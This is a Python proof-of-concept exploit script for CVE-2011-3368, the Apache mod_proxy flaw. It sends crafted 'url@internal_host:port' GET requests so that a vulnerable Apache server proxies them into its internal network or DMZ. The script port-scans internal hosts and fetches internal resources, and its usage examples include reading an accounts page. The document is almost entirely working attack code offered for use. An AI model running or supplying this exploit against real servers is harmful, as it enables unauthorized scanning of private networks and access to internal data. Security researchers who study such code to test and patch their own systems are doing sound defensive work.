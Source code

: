 POC
---

    #!/usr/bin/env python

    import socket
    import string
    import getopt, sys


    known_ports = [0,21,22,23,25,53,69,80,110,137,139,443,445,3306,3389,5432,5900,8080]

    def send_request(url, apache_target, apache_port, internal_target, internal_port, resource):

      get = "GET " + url + "@" + internal_target + ":" + internal_port +  "/" + resource + " HTTP/1.1\r\n"
      get = get + "Host: " + apache_target + "\r\n\r\n"

      remoteserver = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      remoteserver.settimeout(3)

      try:
        remoteserver.connect((apache_target, int(apache_port)))
        remoteserver.send(get)
        return remoteserver.recv(4096)
      except:
        return ""

    def get_banner(result):
      return result[string.find(result, "\r\n\r\n")+4:]


    def scan_host(url, apache_target, apache_port, internal_target, tested_ports, resource):

      print_banner(url, apache_target, apache_port, internal_target, tested_ports, resource)
      for port in tested_ports:
        port = str(port)
        result = send_request(url, apache_target, apache_port, internal_target, port, resource)
        if string.find(result,"HTTP/1.1 200")!=-1 or \
        string.find(result,"HTTP/1.1 30")!=-1 or \
        string.find(result,"HTTP/1.1 502")!=-1:
          print "- Open port: " + port + "/TCP"
          print get_banner(result)
        elif len(result)==0:
           print "- Filtered port: " + port + "/TCP"
        else:
           print "- Closed port: " + port + "/TCP"


    def usage():
      print
      print "CVE-2011-3368 proof of concept by Rodrigo Marcos"
      print "http://www.secforce.co.uk"
      print
      print "usage():"
      print "python apache_scan.py [options]"
      print
      print " [options]"
      print "    -r: Remote Apache host"
      print "    -p: Remote Apache port (default is 80)"
      print "    -u: URL on the remote web server (default is /)"
      print "    -d: Host in the DMZ (default is 127.0.0.1)"
      print "    -e: Port in the DMZ (enables 'single port scan')"
      print "    -g: GET request to the host in the DMZ (default is /)"
      print "    -h: Help page"
      print
      print "examples:"
      print " - Port scan of the remote host"
      print "    python apache_scan.py -r www.example.com -u /images/test.gif"
      print " - Port scan of a host in the DMZ"
      print "    python apache_scan.py -r www.example.com -u /images/test.gif -d internalhost.local"
      print " - Retrieve a resource from a host in the DMZ"
      print "    python apache_scan.py -r www.example.com -u /images/test.gif -d internalhost.local -e 80 -g /accounts/index.html"
      print

    def print_banner(url, apache_target, apache_port, internal_target, tested_ports, resource):
      print
      print "CVE-2011-3368 proof of concept by Rodrigo Marcos"
      print "http://www.secforce.com"
      print
      print " [+] Target: " + apache_target
      print " [+] Target port: " + apache_port
      print " [+] Internal host: " + internal_target
      print " [+] Tested ports: " + str(tested_ports)
      print " [+] Internal resource: " + resource
      print


    def main():

      global apache_target
      global apache_port
      global url
      global internal_target
      global internal_port
      global resource

      try:
        opts, args = getopt.getopt(sys.argv[1:], "u:r:p:d:e:g:h", ["help"])
      except getopt.GetoptError:
        usage()
        sys.exit(2)

      try:
        for o, a in opts:
          if o in ("-h", "--help"):
            usage()
            sys.exit(2)
          if o == "-u":
            url=a
          if o == "-r":
            apache_target=a
          if o == "-p":
            apache_port=a
          if o == "-d":
            internal_target = a
          if o == "-e":
            internal_port=a
          if o == "-g":
            resource=a

      except getopt.GetoptError:
        usage()
        sys.exit(2)

      if apache_target == "":
        usage()
        sys.exit(2)


    url = "/"
    apache_target = ""
    apache_port = "80"
    internal_target = "127.0.0.1"
    internal_port = ""
    resource = "/"

    main()

    if internal_port!="":
      tested_ports = [internal_port]
    else:
      tested_ports = known_ports

    scan_host(url, apache_target, apache_port, internal_target, tested_ports, resource)